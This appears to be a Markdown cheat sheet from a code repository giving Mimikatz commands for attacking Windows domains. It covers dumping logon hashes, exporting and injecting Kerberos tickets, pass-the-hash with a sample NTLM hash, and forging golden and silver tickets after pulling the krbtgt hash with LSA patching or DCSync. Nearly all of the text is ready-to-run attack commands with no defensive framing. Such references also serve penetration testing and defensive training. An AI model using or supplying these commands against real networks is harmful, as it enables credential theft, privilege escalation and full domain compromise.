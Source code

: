 # Mimikatz

## Dump hashes

```cmd
sekurlsa::logonpasswords
```

## Dump tickets

```cmd
sekurlsa::tickets
sekurlsa::tickets /export
```

## Inject ticket into current session

```cmd
kerberos::ptt C:\Path\to\ticket.kirbi
```

## Run command as user

```cmd
sekurlsa::pth /user:Administrator /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

## Golden Ticket

Execute on the DC to get krbtgt hash
```cmd
lsadump::lsa /patch
```

On any machine  
```cmd
kerberos::golden /User:Administrator /domain:current.domain.local /sid:<domain sid> /krbtgt:<krbtgt hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```
Use `/ticket` instead of `/ptt` to save the ticket to a file rather than injecting it into the session  

Use DCSync with DA privileges to get kbrtgt hash  
```cmd
lsadump::dcsync /user:<domain>\krbtgt
```

## Silver Ticket

Get service hash and impersonate any user for that service  
On the DC:  
```cmd
lsadump::lsa /patch
```
Using the hash of the DC computer account  
```cmd
kerberos::golden /domain:current.domain.local /sid:<domain sid> /target:target-dc.current.domain.local /service:HOST /rc4:<rc4 string> /user:Administrator /startoffset:0 /endin:600 /renewmax:10080 /ptt
```
```
